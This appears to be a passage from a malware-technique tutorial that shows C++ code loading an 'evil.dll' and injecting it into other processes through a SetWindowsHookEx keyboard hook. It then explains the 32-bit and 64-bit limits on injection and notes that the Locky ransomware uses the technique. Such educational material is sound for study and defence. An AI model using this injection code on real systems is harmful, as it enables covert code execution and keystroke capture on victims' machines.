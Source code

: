 ```cpp
typedef int (__cdecl *MyProc)();

int main(void) {
  HINSTANCE evilDll;
  MyProc myFunc;
  // load evil DLL
  evilDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  myFunc = (MyProc) GetProcAddress(evilDll, "HackMe");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)myFunc, evilDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

As you can also see, the `UnhookWindowsHookEx` function uninstalls the hook process that was installed by the `SetWindowsHookExA` function.

It is not possible to inject a DLL that is `32-bits` into a process that is `64-bits`, and it is also not possible to inject a DLL that is `64-bits` into a process that is `32-bits`.

In the event that an application needs to use hooks in other processes, it is necessary for a `32-bit` application to call `SetWindowsHookEx` in order to inject a `32-bit` DLL into other processes, and it is necessary for a `64-bit` application to call `SetWindowsHookEx` in order to inject a `64-bit` DLL into other processes. Both of these calls are required.

It is necessary for the `32-bit` and `64-bit` DLLs to have separate names.

Figure shows the _Ransomware Locky_, which uses this technique:
